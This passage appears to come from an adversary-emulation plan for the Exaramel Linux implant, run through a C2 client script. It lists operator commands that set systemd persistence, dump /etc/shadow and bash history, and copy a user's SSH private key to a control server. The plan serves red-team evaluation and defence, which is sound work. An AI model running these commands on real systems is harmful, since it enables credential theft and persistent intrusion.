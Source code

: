 [Source Code](../../Resources/Exaramel/configur/configur.go#L212)

Set systemd persistence.

```bash
# Exaramel for Linux has a hardcoded location under systemd that it uses to achieve persistence if it is running as root.

./evalsC2client.py --set-task exaramel-implant "persist systemd"
```

[Source Code](../../Resources/Exaramel/configur/configur.go#L261)

Get /etc/shadow.

```bash
# Note: not in CTI but in TTP scope
# OS Credential Dumping: /etc/passwd and /etc/shadow

./evalsC2client.py --set-task exaramel-implant "exec cat /etc/shadow"
```

Get bash history.

```bash
# Note: not in CTI but in TTP scope
# Unsecured Credentials: Bash History

./evalsC2client.py --set-task exaramel-implant "exec cat /home/fherbert/.bash_history"
```

[Source Code](../../Resources/Exaramel/worker/worker.go#L156)

Download SSH keys from caladan to control server (HTTPS to 192.168.0.4:8443)

```bash
# Note: not in CTI but in TTP scope
# Unsecured Credentials: Private Keys

./evalsC2client.py --set-task exaramel-implant "get /home/fherbert/.ssh/id_rsa caladan_id_rsa"
```

```bash
./evalsC2client.py --set-task exaramel-implant "get /home/fherbert/.ssh/id_rsa.pub caladan_id_rsa.pub"
```

[Source Code](../../Resources/Exaramel/worker/worker.go#L100)

Confirm SSH keys are present on attack platform:

```bash
ls -lsah files/
```

#### :microscope: Cited Intelligence

* <https://www.welivesecurity.com/2018/10/11/new-telebots-backdoor-linking-industroyer-notpetya/>

* <https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf>
